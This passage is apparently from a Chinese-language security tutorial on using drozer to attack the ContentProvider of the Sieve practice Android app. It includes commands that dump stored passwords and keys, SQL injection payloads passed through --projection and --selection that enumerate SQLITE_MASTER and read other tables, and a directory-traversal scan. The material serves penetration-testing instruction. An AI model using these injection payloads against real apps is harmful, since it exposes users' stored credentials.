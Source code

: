#### 8、ContentProvider攻击

```shell
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
或
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
```

![image-20200628152212737](/images/drozer/image-20200628152212737.png)

<center>如上数据泄露</center>

##### 8.1、SQL注入

Android使用SQLite来存储数据，也可能造成SQL注入漏洞。

```powershell
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"			//提交单引号测试(如下报错)
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords
```

![image-20200628152803161](/images/drozer/image-20200628152803161.png)

```shell
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

```shell
列出数据库中所有表及相关结构信息
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';–"
```

![image-20200628153216874](/images/drozer/image-20200628153216874.png)

```shell
查询其他表
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;–"
```

![image-20200628153439019](/images/drozer/image-20200628153439019.png)



##### 8.2、目录遍历

```shell
//检测存在目录遍历
dz> run scanner.provider.traversal -a com.mwr.example.sieve
```

![image-20200628154719291](/images/drozer/image-20200628154719291.png)

